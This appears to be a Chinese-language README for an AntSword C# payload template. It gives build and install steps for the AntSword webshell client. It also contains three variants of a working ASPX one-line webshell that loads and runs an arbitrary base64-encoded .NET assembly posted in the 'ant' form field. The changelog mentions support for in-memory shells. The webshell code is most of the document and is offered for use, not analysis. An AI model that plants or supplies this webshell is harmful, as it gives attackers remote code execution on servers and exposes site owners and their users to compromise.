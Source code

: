 # AntSword-Csharp-Template v1.1

中国蚁剑Csharp一句话Payload

编译环境：.net 2.0

适用范围：.net 2.0 及以上

## 编译

在build.py中替换你的csc路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python3 build.py
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/aspxcsharp/template/`下即可

## Shell

### shell.aspx

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetTypes()[0].Name).Equals(this);
    }
%>
```

为了兼容各种情况下的内存马，Equals中的入口参数可以为System.Web.UI.Page对象，或者System.Web.UI.Page.Context对象，或者包含Request与Response对象的数组。

即

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetTypes()[0].Name).Equals(Context);
    }
%>
```

或者

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetTypes()[0].Name).Equals(new object[] { Request, Response });
    }
%>
```



## 更新日志

### v 1.1

1. 兼容内存马
2. Payload类名不再固定

### v 1.0

1. release